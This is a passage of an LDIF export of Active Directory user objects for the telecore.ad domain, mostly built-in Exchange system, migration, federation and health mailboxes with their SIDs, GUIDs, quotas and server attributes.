badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 0
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxadgQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: SM_97290ba06a9b4c6d9
sAMAccountType: 805306368
showInAddressBook: CN=All Mailboxes(VLV),CN=All System Address Lists,CN=Addres
 s Lists Container,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Config
 uration,DC=telecore,DC=ad
showInAddressBook: CN=All Recipients(VLV),CN=All System Address Lists,CN=Addre
 ss Lists Container,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Confi
 guration,DC=telecore,DC=ad
legacyExchangeDN: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBOHF23
 SPDLT)/cn=Recipients/cn=97ebae36d8b042fc8d330997bb579cad-DiscoverySe
userPrincipalName: DiscoverySearchMailbox {D919BA05-46A6-415f-80AD-7E09334BB85
 2}@telecore.ad
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115205.0Z
dSCorePropagationData: 16010101000001.0Z
mail: DiscoverySearchMailbox{D919BA05-46A6-415f-80AD-7E09334BB852}@telecore.ad
homeMDB: CN=Mailbox Database 1760216688,CN=Databases,CN=Exchange Administrativ
 e Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telecore Org,CN=Microso
 ft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchAddressBookFlags: 1
msExchCalendarLoggingQuota: 6291456
msExchVersion: 88218628259840
msExchHideFromAddressLists: TRUE
msExchUserAccountControl: 2
delivContLength: 102400
msExchDumpsterQuota: 31457280
submissionContLength: 102400
msExchProvisioningFlags: 0
mDBOverQuotaLimit: 52428800
msExchWhenMailboxCreated: 20250911100957.0Z
msExchModerationFlags: 6
msExchHomeServerName: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBO
 HF23SPDLT)/cn=Configuration/cn=Servers/cn=EX-SRV
msExchELCMailboxFlags: 134
msExchArchiveQuota: 104857600
authOrig: CN=DiscoverySearchMailbox {D919BA05-46A6-415f-80AD-7E09334BB852},CN=
 Users,DC=telecore,DC=ad
msExchUMDtmfMap: emailAddress:347268379732724624526939192205462641538023730933
 422852
msExchUMDtmfMap: lastNameFirstName:6739243472683796245269391922054626415380237
 30933422852
msExchUMDtmfMap: firstNameLastName:6739243472683796245269391922054626415380237
 30933422852
msExchMasterAccountSid:: AQEAAAAAAAUKAAAA
msExchDumpsterWarningQuota: 20971520
msExchRBACPolicyLink: CN=Default Role Assignment Policy,CN=Policies,CN=RBAC,CN
 =Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,
 DC=ad
mailNickname: DiscoverySearchMailbox{D919BA05-46A6-415f-80AD-7E09334BB852}
msExchMailboxAuditEnable: FALSE
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchMailboxSecurityDescriptor:: AQAEjBQAAAAgAAAAAAAAACwAAAABAQAAAAAABQoAAAAB
 AQAAAAAABQoAAAAEAEAAAgAAAAACFAABAAIAAQEAAAAAAAUKAAAAAAIkAAEAAAABBQAAAAAABRUAA
 ABvu6peD6R5GFonHFpmBAAA
msExchRecipientTypeDetails: 536870912
msExchArchiveWarnQuota: 94371840
msExchUMEnabledFlags2: -1
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
authOrigBL: CN=DiscoverySearchMailbox {D919BA05-46A6-415f-80AD-7E09334BB852},C
 N=Users,DC=telecore,DC=ad
msExchMailboxGuid:: /PoyaWIW80udl0RdpQPxzA==
mDBOverHardQuotaLimit: 52428800
msExchGroupSecurityFlags: 0
msExchPoliciesIncluded: 19e7f5a7-855e-4ab3-a913-c1a84b318a46
msExchPoliciesIncluded: {26491cfc-9e50-4857-861b-0cb8df22b5d7}
mDBUseDefaults: FALSE
msExchBypassAudit: FALSE

# Migration.8f3e7716-2011-43e4-96b1-aba62d229136, Users, telecore.ad
dn: CN=Migration.8f3e7716-2011-43e4-96b1-aba62d229136,CN=Users,DC=telecore,DC=
 ad
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Migration.8f3e7716-2011-43e4-96b1-aba62d229136
sn: Migration.8f3e7716-2011-43e4-96b1-aba62d229136
distinguishedName: CN=Migration.8f3e7716-2011-43e4-96b1-aba62d229136,CN=Users,
 DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250910115205.0Z
whenChanged: 20250911101002.0Z
displayName: Microsoft Exchange Migration
uSNCreated: 92001
uSNChanged: 94560
proxyAddresses: SMTP:Migration.8f3e7716-2011-43e4-96b1-aba62d229136@telecore.a
 d
name: Migration.8f3e7716-2011-43e4-96b1-aba62d229136
objectGUID:: BYepg7GFcESy2zESp2HREg==
userAccountControl: 514
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 0
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxadwQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: SM_b60b9c42c35c479ab
sAMAccountType: 805306368
legacyExchangeDN: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBOHF23
 SPDLT)/cn=Recipients/cn=c4394e982dd545068a31aeb473b828a3-Migration.8
userPrincipalName: Migration.8f3e7716-2011-43e4-96b1-aba62d229136@telecore.ad
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250911101002.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115206.0Z
dSCorePropagationData: 16010101000416.0Z
mail: Migration.8f3e7716-2011-43e4-96b1-aba62d229136@telecore.ad
homeMDB: CN=Mailbox Database 1760216688,CN=Databases,CN=Exchange Administrativ
 e Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telecore Org,CN=Microso
 ft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchAddressBookFlags: 1
msExchCalendarLoggingQuota: 6291456
msExchVersion: 1126140425011200
msExchHideFromAddressLists: TRUE
msExchUserAccountControl: 2
msExchDumpsterQuota: 31457280
msExchProvisioningFlags: 0
msExchMessageHygieneSCLJunkThreshold: 4
mDBOverQuotaLimit: 307200
msExchWhenMailboxCreated: 20250911101002.0Z
msExchModerationFlags: 6
msExchHomeServerName: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBO
 HF23SPDLT)/cn=Configuration/cn=Servers/cn=EX-SRV
msExchCapabilityIdentifiers: 48
msExchELCMailboxFlags: 130
msExchArchiveQuota: 104857600
msExchUMDtmfMap: emailAddress:64472846683337716201143349621222623229136
msExchUMDtmfMap: lastNameFirstName:64472846683337716201143349621222623229136
msExchUMDtmfMap: firstNameLastName:64472846683337716201143349621222623229136
msExchRequireAuthToSendTo: TRUE
msExchMasterAccountSid:: AQEAAAAAAAUKAAAA
msExchDumpsterWarningQuota: 20971520
mailNickname: Migration.8f3e7716-2011-43e4-96b1-aba62d229136
msExchMailboxAuditEnable: FALSE
msExchRecipientDisplayType: 10
msExchMailboxFolderSet: 0
msExchMessageHygieneSCLDeleteThreshold: 9
mDBStorageQuota: 153600
msExchTransportRecipientSettingsFlags: 0
msExchMailboxSecurityDescriptor:: AQAEgBQAAAAgAAAAAAAAACwAAAABAQAAAAAABQoAAAAB
 AQAAAAAABQoAAAAEABwAAQAAAAACFAAFAAIAAQEAAAAAAAUKAAAA
msExchRecipientTypeDetails: 8388608
msExchArchiveWarnQuota: 94371840
msExchUMEnabledFlags2: -1
msExchMessageHygieneSCLRejectThreshold: 7
msExchMessageHygieneSCLQuarantineThreshold: 9
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchMailboxGuid:: A2eGi/0gpkeRLCbVJnHOBQ==
mDBOverHardQuotaLimit: 307200
msExchGroupSecurityFlags: 0
msExchPoliciesIncluded: 19e7f5a7-855e-4ab3-a913-c1a84b318a46
msExchPoliciesIncluded: {26491cfc-9e50-4857-861b-0cb8df22b5d7}
mDBUseDefaults: FALSE
msExchBypassAudit: FALSE

# FederatedEmail.4c1f4d8b-8179-4148-93bf-00a95fa1e042, Users, telecore.ad
dn: CN=FederatedEmail.4c1f4d8b-8179-4148-93bf-00a95fa1e042,CN=Users,DC=telecor
 e,DC=ad
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: FederatedEmail.4c1f4d8b-8179-4148-93bf-00a95fa1e042
sn: FederatedEmail.4c1f4d8b-8179-4148-93bf-00a95fa1e042
distinguishedName: CN=FederatedEmail.4c1f4d8b-8179-4148-93bf-00a95fa1e042,CN=U
 sers,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250910115206.0Z
whenChanged: 20250911101007.0Z
displayName: Microsoft Exchange Federation Mailbox
uSNCreated: 92006
uSNChanged: 94566
proxyAddresses: SMTP:FederatedEmail.4c1f4d8b-8179-4148-93bf-00a95fa1e042@telec
 ore.ad
name: FederatedEmail.4c1f4d8b-8179-4148-93bf-00a95fa1e042
objectGUID:: TqlYrzyt6EqK+QN25Fby/Q==
userAccountControl: 514
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 0
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaeAQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: SM_fda9c6276a9b420b8
sAMAccountType: 805306368
legacyExchangeDN: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBOHF23
 SPDLT)/cn=Recipients/cn=c75be71d650a4051bd1e0cb3695fc6b4-FederatedEm
userPrincipalName: FederatedEmail.4c1f4d8b-8179-4148-93bf-00a95fa1e042@telecor
 e.ad
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250911101007.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115206.0Z
dSCorePropagationData: 16010101000416.0Z
mail: FederatedEmail.4c1f4d8b-8179-4148-93bf-00a95fa1e042@telecore.ad
homeMDB: CN=Mailbox Database 1760216688,CN=Databases,CN=Exchange Administrativ
 e Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telecore Org,CN=Microso
 ft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchAddressBookFlags: 1
msExchCalendarLoggingQuota: 6291456
msExchVersion: 1126140425011200
msExchHideFromAddressLists: TRUE
msExchUserAccountControl: 2
msExchDumpsterQuota: 31457280
msExchProvisioningFlags: 0
msExchMessageHygieneSCLJunkThreshold: 4
mDBOverQuotaLimit: 1024
msExchWhenMailboxCreated: 20250911101007.0Z
msExchModerationFlags: 6
msExchHomeServerName: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBO
 HF23SPDLT)/cn=Configuration/cn=Servers/cn=EX-SRV
msExchELCMailboxFlags: 130
msExchArchiveQuota: 104857600
msExchUMDtmfMap: emailAddress:3333728333624542134382817941489323002953213042
msExchUMDtmfMap: lastNameFirstName:3333728333624542134382817941489323002953213
 042
msExchUMDtmfMap: firstNameLastName:3333728333624542134382817941489323002953213
 042
msExchRMSComputerAccountsLink: CN=EX-SRV,OU=Win Servers,DC=telecore,DC=ad
msExchMasterAccountSid:: AQEAAAAAAAUKAAAA
msExchDumpsterWarningQuota: 20971520
mailNickname: FederatedEmail.4c1f4d8b-8179-4148-93bf-00a95fa1e042
msExchMailboxAuditEnable: FALSE
msExchRecipientDisplayType: 10
msExchMailboxFolderSet: 0
msExchMessageHygieneSCLDeleteThreshold: 9
mDBStorageQuota: 1024
msExchTransportRecipientSettingsFlags: 0
msExchMailboxSecurityDescriptor:: AQAEgBQAAAAgAAAAAAAAACwAAAABAQAAAAAABQoAAAAB
 AQAAAAAABQoAAAAEABwAAQAAAAACFAAFAAIAAQEAAAAAAAUKAAAA
msExchRecipientTypeDetails: 8388608
msExchArchiveWarnQuota: 94371840
msExchUMEnabledFlags2: -1
msExchMessageHygieneSCLRejectThreshold: 7
msExchMessageHygieneSCLQuarantineThreshold: 9
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchMailboxGuid:: 9OYTwtXZb0Kc4N7fevjasA==
mDBOverHardQuotaLimit: 1024
msExchGroupSecurityFlags: 0
msExchPoliciesIncluded: 19e7f5a7-855e-4ab3-a913-c1a84b318a46
msExchPoliciesIncluded: {26491cfc-9e50-4857-861b-0cb8df22b5d7}
mDBUseDefaults: FALSE
msExchBypassAudit: FALSE

# SystemMailbox{D0E409A0-AF9B-4720-92FE-AAC869B0D201}, Users, telecore.ad
dn: CN=SystemMailbox{D0E409A0-AF9B-4720-92FE-AAC869B0D201},CN=Users,DC=telecor
 e,DC=ad
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: SystemMailbox{D0E409A0-AF9B-4720-92FE-AAC869B0D201}
sn: SystemMailbox{D0E409A0-AF9B-4720-92FE-AAC869B0D201}
distinguishedName: CN=SystemMailbox{D0E409A0-AF9B-4720-92FE-AAC869B0D201},CN=U
 sers,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250910115206.0Z
whenChanged: 20250911101012.0Z
displayName: E4E Encryption Store - Active
uSNCreated: 92011
uSNChanged: 94575
proxyAddresses: SMTP:SystemMailbox{D0E409A0-AF9B-4720-92FE-AAC869B0D201}@telec
 ore.ad
name: SystemMailbox{D0E409A0-AF9B-4720-92FE-AAC869B0D201}
objectGUID:: lqm5AX0ZDUKeJO1hQoGYwg==
userAccountControl: 514
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 0
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaeQQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: SM_b6948ffbd73246aba
sAMAccountType: 805306368
legacyExchangeDN: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBOHF23
 SPDLT)/cn=Recipients/cn=4019fa3f322c4e72926eb977f0bb1ff4-SystemMailb
userPrincipalName: SystemMailbox{D0E409A0-AF9B-4720-92FE-AAC869B0D201}@telecor
 e.ad
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250911101012.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115206.0Z
dSCorePropagationData: 16010101000416.0Z
mail: SystemMailbox{D0E409A0-AF9B-4720-92FE-AAC869B0D201}@telecore.ad
homeMDB: CN=Mailbox Database 1760216688,CN=Databases,CN=Exchange Administrativ
 e Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telecore Org,CN=Microso
 ft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchApprovalApplicationLink: CN=ModeratedRecipients,CN=Approval Applications
 ,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=teleco
 re,DC=ad
msExchApprovalApplicationLink: CN=AutoGroup,CN=Approval Applications,CN=Teleco
 re Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchAddressBookFlags: 1
msExchCalendarLoggingQuota: 6291456
msExchVersion: 1126140425011200
msExchHideFromAddressLists: TRUE
msExchUserAccountControl: 2
msExchDumpsterQuota: 31457280
msExchProvisioningFlags: 0
msExchMessageHygieneSCLJunkThreshold: 4
msExchWhenMailboxCreated: 20250911101012.0Z
msExchModerationFlags: 6
msExchHomeServerName: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBO
 HF23SPDLT)/cn=Configuration/cn=Servers/cn=EX-SRV
msExchELCMailboxFlags: 130
msExchArchiveQuota: 104857600
msExchUMDtmfMap: emailAddress:797836624526930340920239247209233222869203201
msExchUMDtmfMap: lastNameFirstName:7978366245269303409202392472092332228692032
 01
msExchUMDtmfMap: firstNameLastName:7978366245269303409202392472092332228692032
 01
msExchMasterAccountSid:: AQEAAAAAAAUKAAAA
msExchDumpsterWarningQuota: 20971520
mailNickname: SystemMailbox{D0E409A0-AF9B-4720-92FE-AAC869B0D201}
msExchMailboxAuditEnable: FALSE
msExchRecipientDisplayType: 10
msExchMailboxFolderSet: 0
msExchMessageHygieneSCLDeleteThreshold: 9
msExchTransportRecipientSettingsFlags: 0
msExchMailboxSecurityDescriptor:: AQAEgBQAAAAgAAAAAAAAACwAAAABAQAAAAAABQoAAAAB
 AQAAAAAABQoAAAAEABwAAQAAAAACFAAFAAIAAQEAAAAAAAUKAAAA
msExchRecipientTypeDetails: 8388608
msExchArchiveWarnQuota: 94371840
msExchUMEnabledFlags2: -1
msExchMessageHygieneSCLRejectThreshold: 7
msExchMessageHygieneSCLQuarantineThreshold: 9
msExchMailboxTemplateLink: CN=ArbitrationMailbox,CN=Retention Policies Contain
 er,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=tele
 core,DC=ad
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchMailboxGuid:: RV4CDq10aE6aPSJjAkJwGg==
msExchGroupSecurityFlags: 0
msExchPoliciesIncluded: 19e7f5a7-855e-4ab3-a913-c1a84b318a46
msExchPoliciesIncluded: {26491cfc-9e50-4857-861b-0cb8df22b5d7}
mDBUseDefaults: FALSE
msExchBypassAudit: FALSE

# SystemMailbox{2CE34405-31BE-455D-89D7-A7C7DA7A0DAA}, Users, telecore.ad
dn: CN=SystemMailbox{2CE34405-31BE-455D-89D7-A7C7DA7A0DAA},CN=Users,DC=telecor
 e,DC=ad
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: SystemMailbox{2CE34405-31BE-455D-89D7-A7C7DA7A0DAA}
sn: SystemMailbox{2CE34405-31BE-455D-89D7-A7C7DA7A0DAA}
distinguishedName: CN=SystemMailbox{2CE34405-31BE-455D-89D7-A7C7DA7A0DAA},CN=U
 sers,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250910115206.0Z
whenChanged: 20250911101017.0Z
displayName: Microsoft Exchange
uSNCreated: 92016
uSNChanged: 94583
proxyAddresses: SMTP:SystemMailbox{2CE34405-31BE-455D-89D7-A7C7DA7A0DAA}@telec
 ore.ad
name: SystemMailbox{2CE34405-31BE-455D-89D7-A7C7DA7A0DAA}
objectGUID:: kK6JxN81mEaF72w8bPrQCw==
userAccountControl: 514
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 0
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaegQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: SM_b4ed1b048c9f49c0a
sAMAccountType: 805306368
legacyExchangeDN: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBOHF23
 SPDLT)/cn=Recipients/cn=17b1db225d3d47a0a687089bd12ca98d-SystemMailb
userPrincipalName: SystemMailbox{2CE34405-31BE-455D-89D7-A7C7DA7A0DAA}@telecor
 e.ad
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250911101017.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115206.0Z
dSCorePropagationData: 16010101000416.0Z
mail: SystemMailbox{2CE34405-31BE-455D-89D7-A7C7DA7A0DAA}@telecore.ad
homeMDB: CN=Mailbox Database 1760216688,CN=Databases,CN=Exchange Administrativ
 e Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telecore Org,CN=Microso
 ft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchApprovalApplicationLink: CN=ModeratedRecipients,CN=Approval Applications
 ,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=teleco
 re,DC=ad
msExchApprovalApplicationLink: CN=AutoGroup,CN=Approval Applications,CN=Teleco
 re Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchAddressBookFlags: 1
msExchCalendarLoggingQuota: 6291456
msExchVersion: 1126140425011200
msExchHideFromAddressLists: TRUE
msExchUserAccountControl: 2
msExchDumpsterQuota: 31457280
msExchProvisioningFlags: 0
msExchMessageHygieneSCLJunkThreshold: 4
msExchWhenMailboxCreated: 20250911101017.0Z
msExchModerationFlags: 6
msExchHomeServerName: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBO
 HF23SPDLT)/cn=Configuration/cn=Servers/cn=EX-SRV
msExchCapabilityIdentifiers: 66
msExchELCMailboxFlags: 130
msExchArchiveQuota: 104857600
msExchUMDtmfMap: emailAddress:797836624526922334405312345538937272732720322
msExchUMDtmfMap: lastNameFirstName:7978366245269223344053123455389372727327203
 22
msExchUMDtmfMap: firstNameLastName:7978366245269223344053123455389372727327203
 22
msExchMasterAccountSid:: AQEAAAAAAAUKAAAA
msExchDumpsterWarningQuota: 20971520
mailNickname: SystemMailbox{2CE34405-31BE-455D-89D7-A7C7DA7A0DAA}
msExchMailboxAuditEnable: FALSE
msExchRecipientDisplayType: 10
msExchMailboxFolderSet: 0
msExchMessageHygieneSCLDeleteThreshold: 9
msExchTransportRecipientSettingsFlags: 0
msExchMailboxSecurityDescriptor:: AQAEgBQAAAAgAAAAAAAAACwAAAABAQAAAAAABQoAAAAB
 AQAAAAAABQoAAAAEABwAAQAAAAACFAAFAAIAAQEAAAAAAAUKAAAA
msExchRecipientTypeDetails: 8388608
msExchArchiveWarnQuota: 94371840
msExchUMEnabledFlags2: -1
msExchMessageHygieneSCLRejectThreshold: 7
msExchMessageHygieneSCLQuarantineThreshold: 9
msExchMailboxTemplateLink: CN=ArbitrationMailbox,CN=Retention Policies Contain
 er,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=tele
 core,DC=ad
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchMailboxGuid:: PJLX7E+R4Eup0jGJZhQTyg==
msExchGroupSecurityFlags: 0
msExchPoliciesIncluded: 19e7f5a7-855e-4ab3-a913-c1a84b318a46
msExchPoliciesIncluded: {26491cfc-9e50-4857-861b-0cb8df22b5d7}
mDBUseDefaults: FALSE
msExchBypassAudit: FALSE

# SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9}, Users, telecore.ad
dn: CN=SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9},CN=Users,DC=telecor
 e,DC=ad
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9}
sn: SystemMailbox 8cc370d3-822a-4ab8-a926-bb94bd0641a9
distinguishedName: CN=SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9},CN=U
 sers,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250910115206.0Z
whenChanged: 20250911101022.0Z
displayName: SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9}
uSNCreated: 92024
uSNChanged: 94587
proxyAddresses: SMTP:SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9}@telec
 ore.ad
name: SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9}
objectGUID:: 0gv3TvjM2kOG6NX13eRsZA==
userAccountControl: 514
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 0
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaewQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: SM_1855ffce225d45c08
sAMAccountType: 805306368
legacyExchangeDN: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBOHF23
 SPDLT)/cn=Recipients/cn=e6cd082469d14cf88eaf9d63a24daee1-SystemMailb
userPrincipalName: SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9}@telecor
 e.ad
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115206.0Z
dSCorePropagationData: 16010101000001.0Z
mail: SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9}@telecore.ad
homeMDB: CN=Mailbox Database 1760216688,CN=Databases,CN=Exchange Administrativ
 e Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telecore Org,CN=Microso
 ft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchAddressBookFlags: 1
msExchCalendarLoggingQuota: 6291456
msExchVersion: 1126140425011200
msExchHideFromAddressLists: TRUE
msExchUserAccountControl: 2
msExchDumpsterQuota: 52428800
msExchProvisioningFlags: 0
mDBOverQuotaLimit: 52428800
msExchWhenMailboxCreated: 20250911101022.0Z
msExchModerationFlags: 6
msExchHomeServerName: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBO
 HF23SPDLT)/cn=Configuration/cn=Servers/cn=EX-SRV
msExchELCMailboxFlags: 134
msExchArchiveQuota: 104857600
msExchUMDtmfMap: emailAddress:797836624526982237033822242282926229423064129
msExchUMDtmfMap: lastNameFirstName:7978366245269822370338222422829262294230641
 29
msExchUMDtmfMap: firstNameLastName:7978366245269822370338222422829262294230641
 29
msExchMasterAccountSid:: AQEAAAAAAAUKAAAA
msExchDumpsterWarningQuota: 20971520
msExchRBACPolicyLink: CN=Default Role Assignment Policy,CN=Policies,CN=RBAC,CN
 =Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,
 DC=ad
mailNickname: SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9}
msExchMailboxAuditEnable: FALSE
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchMailboxSecurityDescriptor:: AQAEgBQAAAAgAAAAAAAAACwAAAABAQAAAAAABQoAAAAB
 AQAAAAAABQoAAAAEABwAAQAAAAACFAABAAIAAQEAAAAAAAUKAAAA
msExchRecipientTypeDetails: 4398046511104
msExchArchiveWarnQuota: 94371840
msExchUMEnabledFlags2: -1
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchMailboxGuid:: 7D8ukBkwi0qtbksb4dZZKg==
mDBOverHardQuotaLimit: 52428800
msExchGroupSecurityFlags: 0
msExchPoliciesIncluded: 19e7f5a7-855e-4ab3-a913-c1a84b318a46
msExchPoliciesIncluded: {26491cfc-9e50-4857-861b-0cb8df22b5d7}
mDBUseDefaults: FALSE
msExchBypassAudit: FALSE

# HealthMailbox062391d6ff414d9088641865db267169, Monitoring Mailboxes, Microsof
 t Exchange System Objects, telecore.ad
dn: CN=HealthMailbox062391d6ff414d9088641865db267169,CN=Monitoring Mailboxes,C
 N=Microsoft Exchange System Objects,DC=telecore,DC=ad
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: HealthMailbox062391d6ff414d9088641865db267169
distinguishedName: CN=HealthMailbox062391d6ff414d9088641865db267169,CN=Monitor
 ing Mailboxes,CN=Microsoft Exchange System Objects,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250912111127.0Z
whenChanged: 20251126050130.0Z
displayName: HealthMailbox-Ex-Srv-Mailbox-Database-1761897377
uSNCreated: 96541
uSNChanged: 152894
proxyAddresses: SMTP:HealthMailbox062391d6ff414d9088641865db267169@telecore.ad
proxyAddresses: SIP:HealthMailbox062391d6ff414d9088641865db267169@telecore.ad
garbageCollPeriod: 1209600
name: HealthMailbox062391d6ff414d9088641865db267169
objectGUID:: LkwZpI17A0eN43sN4ypI1A==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 134027045219006783
pwdLastSet: 134086068852222773
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxafgQAAA==
accountExpires: 9223372036854775807
logonCount: 757
sAMAccountName: HealthMailbox062391d
sAMAccountType: 805306368
showInAddressBook: CN=All Recipients(VLV),CN=All System Address Lists,CN=Addre
 ss Lists Container,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Confi
 guration,DC=telecore,DC=ad
legacyExchangeDN: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBOHF23
 SPDLT)/cn=Recipients/cn=0d49d93518894379b2f6b543c2d4563b-HealthMailb
userPrincipalName: HealthMailbox062391d6ff414d9088641865db267169@telecore.ad
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 134086068909723442
mail: HealthMailbox062391d6ff414d9088641865db267169@telecore.ad
homeMDB: CN=Mailbox Database 1761897377,CN=Databases,CN=Exchange Administrativ
 e Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telecore Org,CN=Microso
 ft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchAddressBookFlags: 1
msExchCalendarLoggingQuota: 6291456
msExchVersion: 88218628259840
msExchPoliciesExcluded: {26491cfc-9e50-4857-861b-0cb8df22b5d7}
internetEncoding: 0
msExchHideFromAddressLists: TRUE
msExchUserAccountControl: 0
msExchDumpsterQuota: 31457280
protocolSettings:: UmVtb3RlUG93ZXJTaGVsbMKnMQ==
msExchArchiveName: In-Place Archive -HealthMailbox-Ex-Srv-Mailbox-Database-176
 1897377
msExchProvisioningFlags: 0
msExchArchiveDatabaseLink: CN=Mailbox Database 1761897377,CN=Databases,CN=Exch
